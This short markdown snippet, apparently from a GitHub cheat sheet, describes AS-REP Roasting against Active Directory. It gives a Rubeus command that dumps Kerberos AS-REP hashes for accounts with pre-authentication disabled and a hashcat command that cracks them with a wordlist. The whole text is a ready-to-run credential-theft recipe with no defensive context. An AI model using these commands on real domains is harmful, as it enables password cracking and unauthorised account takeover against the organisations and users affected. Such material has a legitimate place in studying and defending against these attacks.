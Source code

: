 **AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled**

Run the following in the domain controller, and then copy the hash
```CMD
Rubeus.exe asreproast
```

Crack the hash using the following command
```Shell
hashcat -a 0 -m 18200 hash.txt Pass.txt
```